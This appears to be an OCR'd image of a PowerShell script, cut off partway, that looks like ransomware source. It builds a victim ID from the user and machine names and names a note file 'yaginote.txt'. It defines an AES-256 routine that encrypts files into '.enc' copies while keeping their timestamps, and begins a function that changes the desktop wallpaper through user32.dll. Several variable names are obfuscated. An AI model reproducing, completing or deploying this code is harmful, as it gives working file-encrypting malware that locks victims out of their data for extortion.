```powershell
[System.Net.WebRequest]::DefaultWebProxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
$AllProtocols = [System.Net.SecurityProtocolType]"Ssl3,Tls,Tls11,Tls12" ; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols
# Functions
$OgE = ([Environment]::MachineName).ToLower() ; $zVSza = ([Environment]::UserName).ToLower() ; $I26 = "yaginote.txt"
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" ; $Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
if ($OSVersion -like "*Win*") { $domain = (([Environment]::UserDomainName).ToLower()+"\") ; $slash = "\" } else { $domain = $null ; $slash = "/" } 
$DirectoryTarget = $Directory.Split($slash)[-1] ; if (!$DirectoryTarget) { $DirectoryTarget = $Directory.Path.Split($slash)[-1] }
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
  End {
      $m95I.Dispose()
      $n9ibn.Dispose()}}
function RemoveWallpaper {
$code = @"
using System;
using System.Drawing;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace CurrentUser { public class Desktop {
[DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
private static extern int SystemParametersInfo(int uAction, int uParm, string lpvParam, int fuWinIni);
[DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern int SetSysColors(int cElements, int[] lpaElements, int[] lpRgbValues);
public const int UpdateIniFile = 0x01; public const int SendWinIniChange = 0x02;
public const int SetDesktopBackground = 0x0014; public const int COLOR_DESKTOP = 1;
```
